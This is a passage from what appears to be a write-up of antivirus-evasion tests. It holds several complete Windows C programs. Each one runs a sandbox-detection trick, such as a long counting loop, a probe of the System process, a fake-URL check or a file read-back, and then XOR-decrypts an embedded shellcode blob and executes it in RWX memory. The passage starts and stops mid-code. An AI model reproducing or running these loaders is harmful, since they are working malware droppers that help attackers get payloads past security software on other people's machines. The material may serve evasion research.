    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Test 7 (**Hundred million increments**)
------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    int cpt = 0;
    int i = 0;
    
    for(i =0; i < 100000000; i ++)
    {
      cpt++;
    }
    
    if(cpt == 100000000)
    {
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
      char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
      int JLLxOyNdJwjKdg = 0;
      for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
      }

      void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
      memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
      ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
    
    }

    return 1;
}
```


Test 8 (**Attempt to open a system process**)
------

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {
    HANDLE file;
    HANDLE proc;
    proc = OpenProcess( PROCESS_ALL_ACCESS, FALSE, 4);
    
    if (proc != NULL)
    {
      return 1;
    }
        
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Test 9 (**Attempt to open a non-existing URL**)
-------

```c
#include <windows.h>
#include <string>
#include <wininet.h>
#pragma comment(lib, "wininet.lib")
using namespace std;

int main(int argc, char **argv) {
    char cononstart[] = "http://www.notdetectedmaliciouscode.com//"; //Invalid URL
    char readbuf[1024];
    HINTERNET httpopen, openurl;
    DWORD read;
    httpopen=InternetOpen(NULL,INTERNET_OPEN_TYPE_DIRECT,NULL,NULL,0);
    openurl=InternetOpenUrl(httpopen,cononstart,NULL,NULL,INTERNET_FLAG_RELOAD|INTERNET_FLAG_NO_CACHE_WRITE,NULL);
    
    if (openurl) {
      InternetCloseHandle(httpopen);
      InternetCloseHandle(openurl);
      return 1;
    }
    
     InternetCloseHandle(httpopen);
     InternetCloseHandle(openurl);
        
    char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
    char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\x72\x7a\x4c\x73\x65\x52\x66\x68\x6f\x52\x49\x5e\x7b\x7e\x47\x2b\x2b\xe6\x8e\x1e\x85\xb7\xf6\x72\x4e\x45\x28\x5f\x83\x35\x2b\x2f\x71\x1e\x19\xc8\x1c\xfc\xde\x8d\x63\x50\x50\x41\x9c\xb2\x87\xff\x4b\x47\x71\x4c\x5f\x22\x10\x26\x1c\x2e\x22\x3e\x23\x0f\x57\x72\x13\x30\x77\x44\x05\x27\x25\x3d\x26\x26\x2e\x04\x27\x08\x26\x35\x25\x35\x0f\x28\x0a\x02\x0a\x5f\x37\x1b\x11\x33\x15\x11\x18\x0f\x30\x24\x0d\x14\x29\x1c\x19\x27\x11\x37\x0e\x44\x08\x3a\x34\x1b\x1e\x07\x29\x01\x0c\x0d\x18\x0f\x01\x26\x38\x1a\x7a\x05\x4f\x0a\x47\x08\x26\x08\x0d\x12\x50\x33\x2d\x3a\x1a\x1f\x1d\x3e\x42\x27\x79\x55\x68\x3b\x77\x1a\x2b\x01\x00\x27\x2b\x18\x06\x38\x02\x05\x6f\x05\x2c\x16\x37\x21\x56\x22\x29\x2b\x1e\x2f\x0b\x2a\x60\x24\x08\x31\x13\x08\x1a\x13\x3f\x29\x12\x3f\x2d\x27\x23\x1e\x24\x01\x56\x7d\x30\x08\x12\x01\x03\x3a\x04\x2f\x09\x7a\x08\x17\x00\x02\x1e\x26\x3f\x2e\x01\x74\x3a\x2c\x27\x11\x2d\x05\x17\x20\x39\x1d\x1e\x3a\x39\x2b\x7b\x0f\x42\x3f\xc4\xb2\x1d\x1f\x24\x36\x07\x57\xb1\x16\x3a\xf5\x50\x40\xe3\xf1\x41\x4b\x63\x50\x00\x12\x30\x2e\xa8\x89\xa0\x12\x5f\x58\x90\x9a\x1f\xcb\xb1\x27\x79\x11\x0d\xec\x9f\x20\x79\x22\x17\x1a\xcd\x63\x72\x4b\x3c\xc8\xab\x09\x54\x11\x18\x2a\xdd\x1a\x0d\xd5\xc1\x71\x63\x6f\x4f\xa8\x97\x3a\x7c\xb3\x1d\x1f\x2d\xe7\xbb\x2b\x49\x8c\x3f\x7c\x99\x21\x18\x3c\x86\x89\x4e\x56\x48\x3a\x9c\xb2\xea\x8b\x3e\x58\x39\xa4\xae\xc7\x44\x42\x77\x04\xc9\x0a\xb5\x50\x8e\x4a\x66\x78\x45\x8d\x98\x18\x8d\x84\x01\x43\xa0\xc9\xb8\x05\x41\x63\x67\x3c\x12\x21\x07\x2b\x2a\xe6\x9e\x96\xa0\x67\x04\xb4\x8e\x45\x75\x6e\x4a\x2f\xc2\x1d\xd6\x1e\xb5\x72\x4b\x75\x41\xb4\xb6\x18\xc3\x12\x30\x2f\xe6\xac\x03\xce\x80\x2b\xe6\x95\x1e\x85\xb7\x4d\x53\x4e\x45\x2c\xe7\xb3\x2f\xc2\x57\xe4\xc4\xb2\x72\x4b\x75\x41\xb4\xb6\x18\xd3\x85\x43\xe2\xaf\x3f\xf9\x21\xfa\x64\x27\x4e\x94\xc7\xb7\x38\xa1\x16\x86\x3d\x04\x4a\x3f\xc3\xa5\x6f\x67\x5a\x33\xc2\xaf\xbe\x9e";
    char bIzhQqggPSZfzv[sizeof ncsCFtUeRdaapvgxAaPTb];
    
    int JLLxOyNdJwjKdg = 0;
    for(int vWnqVXZZFuTnQsAwryJzduxipagNTAdk=0; vWnqVXZZFuTnQsAwryJzduxipagNTAdk < sizeof ncsCFtUeRdaapvgxAaPTb; vWnqVXZZFuTnQsAwryJzduxipagNTAdk++) {
        if(JLLxOyNdJwjKdg == sizeof licCPWGlEUMUlfnzbCcwjjx -1) {
            JLLxOyNdJwjKdg=0;
        }
        bIzhQqggPSZfzv[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] = ncsCFtUeRdaapvgxAaPTb[vWnqVXZZFuTnQsAwryJzduxipagNTAdk] ^ licCPWGlEUMUlfnzbCcwjjx[JLLxOyNdJwjKdg];
        JLLxOyNdJwjKdg++;
    }

    void *GSkEZFElqxdCjUfjTrQPyEW = VirtualAlloc(0, sizeof bIzhQqggPSZfzv, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(GSkEZFElqxdCjUfjTrQPyEW, bIzhQqggPSZfzv, sizeof bIzhQqggPSZfzv);
    ((void(*)())GSkEZFElqxdCjUfjTrQPyEW)();
}
```


Test 10 (**Action which depends on local username**)
-------

```c
#include <windows.h>
#include <string>

using namespace std;

#define FILE_PATH "C:\\Users\\Joe\\Desktop\\tmp.file"

int main(int argc, char **argv) {
    HANDLE file;
    DWORD tmp;
    LPCVOID buff = "1234";
    char outputbuff[5]={0};
    file = CreateFile(FILE_PATH, GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, 0);
    
    if(WriteFile(file, buff, strlen((const char *)buff), &tmp, NULL))
    {
      CloseHandle(file);
      file = CreateFile(FILE_PATH,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);

      if(ReadFile(file,outputbuff,4,&tmp,NULL))
      {
        if(strncmp(buff,outputbuff,4)==0)
        {
          char licCPWGlEUMUlfnzbCcwjjx[] = "PPAcgoKKGqcoOWBwMsNEenJfxErMPrKuAKc";
          char ncsCFtUeRdaapvgxAaPTb[] = "\xac\x18\xc2\x87\x97\x87\x87\x4b\x47\x71\x22\x3e\x0e\x07\x10\x3f\x7c\xa1\x1f\x13\x00\x26\xc1\x34\x18\x0d\xf9\x1f\x48\x3a\xc0\x27\x61\x06\x52\x99\x18\x4e\xd4\x2d\x25\x03\xc0\x35\x21\x2b\x5e\x8f\xfb\x7e\x16\x31\x71\x62\x65\x24\xaf\x83\x6b\x39\x44\xb3\xaf\xbd\x20\x03\xfe\x13\x6b\xe8\x12\x6c\x09\x62\xb7\x2e\x1a\x2d\xc6\x09\x7b\x64\x4d\x58\xc7\x05\x4d\x73\x4e\xce\xe5\xe6\x4a\x66\x78\x0d\xf7\x8d\x24\x15\x03\x74\x91\x0f\xe8\x10\x70\xca\x2b\x7f\x3f\x02\x4a\x97\x92\x35\x22\x7e\x9e\x0a\x88\x84\x32\xc5\x71\xed\x26\x4b\xb0\x30\x74\xb2\x0c\x91\xbb\x46\xd9\x00\x4a\xa2\x68\xb0\x34\x92\x2b\x6c\x07\x6f\x4f\x34\x5a\xbe\x3a\x8f\x1a\x33\xc6\x33\x6a\x0c\x64\xbe\x2c\x27\xf3\x49\x3a\x09\xdb\x32\x57\x3c\x40\x9b\x22\xdb\x54\xc9\x2b\x66\xbf\x0a\x13\x06\x29\x3d\x36\x15\x16\x1a\x36\x14\x32\x14\x0d\xe6\x82\x6a\x27\x2a\xba\x92\x15\x11\x2b\x11\x3d\xca\x59\x8a\x1b\xaf\xbe\x9c\x3a\x27\x7a\x90\x14\x38\xdd\x18\x26\x39\x2b\x19\x28\x07\x4e\x04\x33\x26\xc3\x87\x31\x82\xb0\x01\x27\x54\x4c\x8a\x94\x18\x30\x18\xd9\xa0\x30\x3d\x22\x7a\x8b\x0a\x40\xaa\x3c\x1c\x1e\xf8\x4d\x1b\x0a\xe9\x45\x65\x6e\x4a\x99\xad\xad\x7c\x4d\x50\